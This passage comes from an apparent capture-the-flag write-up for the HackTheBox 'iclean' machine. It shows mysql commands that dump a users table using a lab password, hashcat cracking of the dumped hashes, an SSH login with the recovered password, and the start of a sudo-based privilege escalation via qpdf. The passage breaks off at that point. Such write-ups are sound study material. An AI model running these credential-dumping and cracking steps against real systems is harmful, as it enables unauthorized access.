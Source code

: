 We will list tables for the database capiclean:

`mysql --database capiclean -e 'use capiclean; show tables;' -u iclean -ppxCsmnGLckUb`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/iclean/image-33.png)

We will dump content inside users table:

`mysql --database capiclean -e 'use capiclean; show tables; select * from users' -u iclean -ppxCsmnGLckUb`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/iclean/image-34.png)

Let's try cracking these hashes.

We succedeed in cracking hash for user **consuela**: **simple and clean**

`hashcat -m 1400 hash rockyou.txt`

pic here

Using the password, we can SSH in:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/iclean/image-35.png)

## Privesc: consuela to root
### Sudoers

Checking on commands that could be ran with sudo privilege, `/usr/bin/qpdf` is found:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/iclean/image-36.png)
